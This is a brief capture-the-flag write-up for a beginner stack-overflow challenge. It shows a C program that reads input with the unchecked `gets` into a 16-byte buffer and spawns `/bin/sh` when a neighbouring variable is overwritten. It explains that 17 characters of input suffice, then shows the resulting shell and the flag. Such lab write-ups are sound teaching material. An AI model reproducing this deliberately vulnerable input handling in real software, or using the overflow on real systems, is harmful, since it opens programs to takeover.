 # Overflow 1
A non-secure function gets(it does not check the length of user input) is used for user input
```
  char str[] = "AAAA";
  char buf[16];
  gets(buf);
  if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A')){
    system("/bin/sh");
  }
```
It is enough to overwrite 1 byte of str located directly under buf,that is, enter any 17 characters.
```
$ls
flag.txt
$cat flag.txt
CYCTF{st@ck_0v3rfl0ws_@r3_3z}
```
### CYCTF{st@ck_0v3rfl0ws_@r3_3z}
